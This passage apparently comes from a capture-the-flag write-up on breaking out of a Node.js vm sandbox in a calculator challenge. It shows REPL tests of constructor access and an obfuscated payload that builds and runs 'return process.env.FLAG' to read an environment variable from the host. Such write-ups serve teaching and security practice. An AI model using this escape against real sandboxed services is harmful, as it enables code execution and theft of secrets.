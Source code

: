 The VM was indeed displeased with `.constructor.constructor()`.


```js
> ev(`({}).constructor.constructor('')`)
evalmachine.<anonymous>:1
({}).constructor.constructor('')
                 ^

Uncaught EvalError: Code generation from strings disallowed for this context
    at Function (<anonymous>)
    at evalmachine.<anonymous>:1:18
    at Script.runInContext (node:vm:139:12)
    at Object.runInContext (node:vm:289:6)
    at ev (REPL10:1:17)
    at REPL23:1:1
    at Script.runInThisContext (node:vm:129:12)
    at REPLServer.defaultEval (node:repl:522:29)
    at bound (node:domain:416:15)
    at REPLServer.runBound [as eval] (node:domain:427:12)
```

However, I found that `this` was the empty context object, and doing `.constructor.constructor()` on it was acceptable.


```js
> ev(`this`)
{}
> ev(`this.constructor.constructor('')`)
[Function: anonymous]
```

Conveniently, identifiers are allowed in the calculator, so I entered the equivalent of `this.constructor.constructor('return process.env.FLAG')()` into the calculator, which gave me the flag. 🎉


```js
this[constructo = (c=(native_code=[][flat=(f=(fals=(0==1)+[])[0]) + (l=fals[2]) + (a=fals[1]) +(t=(tru=(0==0)+[])[0])]+[])[26]) + (o=native_code[27]) + (n=(undef=[][0]+[])[1]) + (s=fals[3]) + t + (r=tru[1]) + (u=undef[0]) + c + t + o + r][constructo]((fromCharCode = (Strin = ([]+[])[constructo])[f + r + o + (m = (0[constructo]+[])[11]) + (C=escape(([]+[])[(i = undef[5])+t+a+l+i+c+s]())[2]) + (h = 17[toString = t+o+(Stri=Strin[n+a+(m = (0[constructo]+[])[11])+(e = undef[3])])](36)) + a + r + C + o + (d = undef[2]) + e])(114) + fromCharCode(101) + fromCharCode(116) + fromCharCode(117) + fromCharCode(114) + fromCharCode(110) + fromCharCode(32) + fromCharCode(112) + fromCharCode(114) + fromCharCode(111) + fromCharCode(99) + fromCharCode(101) + fromCharCode(115) + fromCharCode(115) + fromCharCode(46) + fromCharCode(101) + fromCharCode(110) + fromCharCode(118) + fromCharCode(46) + fromCharCode(70) + fromCharCode(76) + fromCharCode(65) + fromCharCode(71))()
```

![Getting the calculator to get an environment variable](../images/ctf/calculator.png)
